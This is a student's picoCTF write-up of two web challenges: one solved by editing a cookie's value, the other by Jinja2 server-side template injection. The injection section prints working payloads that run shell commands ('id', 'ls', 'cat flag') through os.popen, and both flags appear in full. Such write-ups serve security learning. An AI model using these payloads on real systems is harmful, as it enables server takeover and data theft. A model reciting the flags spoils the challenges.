

# 1. Cookies:

Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:64944/

## Solution:

We have to go into the website they gave, then we need to go to inspect and then cookies. Over there i observed when we typed snickerdoodle (it was given as example there) and entered, the value of cookie changed. I then googled and found that for a cookie, we can either change the name or value. Since the value was changing, I kept on changing values and refreshing the page, which told some random cookie names. At value 18, the flag showed up.



## Flag:

```
picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}
```

## Concepts learnt:

I learned that in the inspect page, we can either change the name or value of cookie. 

## Notes:

I first tried changing the name to admin like i did in citadelCTF, but that was wrong as all of them had the same name, the values were changing so we have to change values.  

## Resources:

https://youtube.com/watch?v=iGDJ695dUEM

https://youtube.com/watch?v=-Zea7GB2OwA

https://superuser.com/questions/244062/how-do-i-view-add-or-edit-cookies-in-google-chrome

***

# 2. SSTI1: 

I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps!

## Solution:

Based on the name of the challenge, description which included "templating" and also the website where we had to type anythung and it outputted it, we can tell that we have to use server-side template injection. I first identified the tempalate engine using the tree below. 


When I typed "${7*7}", the same thing appeared, so I typed "{{7*7}}", 49 appeared, so i then typed "{{7*'7'}}", and 7777777 appeared, so we can tell that it is the Jinja2 engine. 

Once i identified it was a Jinja2 engine, i entered this payload, and the ids of root came. 

```
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
Since for the previous command, the ids came, I replaced the id with ls and got the list of all the files, and flag was one of them. 
```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
So i then replaced ls with cat flag and got the flag printed on the screen. 
```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

## Flag:

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_f5438664}
```

## Concepts learnt:

I learned about server-side template injection, where we try to pass data into a template and execute it server-side, so that we can gain control of the server or gain access to sensitive information. The first step for this is to identify if there is any vulnerability of server-side template injection, by typing different test data. Then if there is any vulnerability, we have to identify the template engine used and then we can exploit the website. 

## Notes:

I first tried to go into inspect page and fiddle with different things over there, but server-side template injection doesen't work like that, we have to type data into the template. 

## Resources:

https://youtube.com/watch?v=iGDJ695dUEM

https://youtube.com/watch?v=-Zea7GB2OwA

https://portswigger.net/web-security/server-side-template-injection#constructing-a-server-side-template-injection-attack

https://onsecurity.io/article/server-side-template-injection-with-jinja2/

***

